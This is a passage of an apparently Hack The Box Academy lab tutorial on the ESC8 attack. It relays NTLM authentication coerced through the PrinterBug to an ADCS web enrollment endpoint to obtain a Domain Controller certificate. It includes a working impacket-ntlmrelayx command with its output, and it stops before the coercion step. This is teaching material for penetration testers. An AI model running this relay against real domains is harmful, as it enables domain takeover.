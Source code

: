 
# Description

Following up on the PKI-related attack scenario from the previous section, another attack we can abuse is relaying to `ADCS` to obtain a certificate, a technique known as `ESC8`.

Previously, we used `PrinterBug` and `Coercer` to make (or force) computers to connect to any other computer. In this scenario, we will utilize the `PrinterBug,` and with the received reverse connection, we will relay to ADCS to obtain a certificate for the machine we coerced.

---

# Attack

We begin by configuring `NTLMRelayx` to forward incoming connections to the HTTP endpoint of our Certificate Authority. As part of this configuration, we will specify that we want to obtain a certificate for the Domain Controller (a default template in AD, which Domain Controllers use for client authentication). The `--adcs` switch makes `NTLMRelayx` parse and displays the certificate if one is received:

  Attack

```shell-session
LeDaav@htb[/htb]$ impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
```

![Starting NTLMRelay](https://academy.hackthebox.com/storage/modules/176/A14/ntlmrelaystart.png)

Now we need to get the Domain Controller to connect to us. We’ll use the `Print Spooler` bug and force a reverse connection to us (as we previously did in a previous lab). In this case, we are forcing DC2 to connect to the Kali machine while we have `NTLMRelayx` listening in another terminal:
